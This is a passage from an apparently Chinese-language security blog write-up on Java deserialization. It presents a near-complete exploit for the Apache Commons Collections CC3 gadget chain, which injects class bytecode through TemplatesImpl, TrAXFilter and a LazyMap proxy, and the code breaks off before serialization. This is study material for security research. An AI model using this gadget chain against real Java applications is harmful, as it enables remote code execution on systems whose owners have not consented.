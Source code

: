 后面再嫁接 cc1 的 ChainedTransform.transform 思路，链子就构造成功了。

### 完整 exp

```bash
package org.example;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.map.LazyMap;


import javax.xml.transform.Templates;
import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.*;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;
import java.util.Map;

public class CommonscollectionsTest {
    public static void main(String[] args) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        Class templatesClass = templates.getClass();
        Field nameField = templatesClass.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(templates,"lituer");
        Field bytecodeField = templatesClass.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        byte[] code = Files.readAllBytes(Paths.get("D:\\IdeaProjects1\\untitled2\\target\\classes\\org\\example\\calc.class"));
        byte[][] codes = {code};
        bytecodeField.set(templates,codes);
        Field tfactoryField = templatesClass.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(templates,new TransformerFactoryImpl());

        templates.newTransformer();
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);

        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);

        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler invocationHandler = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);

        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},invocationHandler);
```